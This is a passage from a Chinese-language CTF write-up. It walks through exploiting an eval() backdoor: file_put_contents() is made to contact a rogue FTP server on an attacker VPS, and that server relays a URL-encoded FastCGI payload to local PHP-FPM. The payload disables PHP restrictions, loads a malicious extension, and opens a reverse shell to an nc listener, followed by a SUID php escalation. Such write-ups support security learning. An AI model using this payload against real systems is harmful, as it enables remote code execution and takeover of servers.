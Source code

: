 
[![](assets/1698897074-dddf739db09d96474f3457c262fe4f6d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134750-9689433a-b2e5-1.png)

然后在 vps 上开启一个 nc 监听，用于接收反弹的 shell：

[![](assets/1698897074-03d90f28a76427f35b49c919c0e182b8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134750-96a1e7f0-b2e5-1.png)

最后通过 eval() 构造如下恶意代码通过 file\_put\_contents() 与我们 vps 上恶意的 ftp 服务器建立连接：

```bash
/add_api.php?backdoor=$file = $_GET['file'];$data = $_GET['data'];file_put_contents($file,$data);&file=ftp://aaa@47.101.57.72:23/123&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%02%3F%00%00%11%0BGATEWAY_INTERFACEFastCGI%2F1.0%0E%04REQUEST_METHODPOST%0F%19SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Fadd_api.php%0B%0CSCRIPT_NAME%2Fadd_api.php%0C%0EQUERY_STRINGcommand%3Dwhoami%0B%1BREQUEST_URI%2Fadd_api.php%3Fcommand%3Dwhoami%0C%0CDOCUMENT_URI%2Fadd_api.php%09%80%00%00%B3PHP_VALUEunserialize_callback_func+%3D+system%0Aextension_dir+%3D+%2Ftmp%0Aextension+%3D+hpdoger.so%0Adisable_classes+%3D+%0Adisable_functions+%3D+%0Aallow_url_include+%3D+On%0Aopen_basedir+%3D+%2F%0Aauto_prepend_file+%3D+%0F%0DSERVER_SOFTWARE80sec%2Fwofeiwo%0B%09REMOTE_ADDR127.0.0.1%0B%04REMOTE_PORT9000%0B%09SERVER_ADDR127.0.0.1%0B%02SERVER_PORT80%0B%09SERVER_NAMElocalhost%0F%08SERVER_PROTOCOLHTTP%2F1.1%0E%02CONTENT_LENGTH49%01%04%00%01%00%00%00%00%01%05%00%01%001%00%00%3C%3Fphp+system%28%24_REQUEST%5B%27command%27%5D%29%3B+phpinfo%28%29%3B+%3F%3E%01%05%00%01%00%00%00%00
```

此时当 ftp 建立连接后，会通过被动模式将 payload 重定向到目标主机本地 9001 端口的 PHP-FPM 上，并成功反弹 Shell：

[![](assets/1698897074-bb1005645d20204a4c84102084612ec2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134751-96c8a3f4-b2e5-1.png)

后面就是一个 SUID 提权了，利用的是 /usr/local/bin/php，直接进行 PHP 交互模式执行代码获取 flag 即可。

## 未完待续......
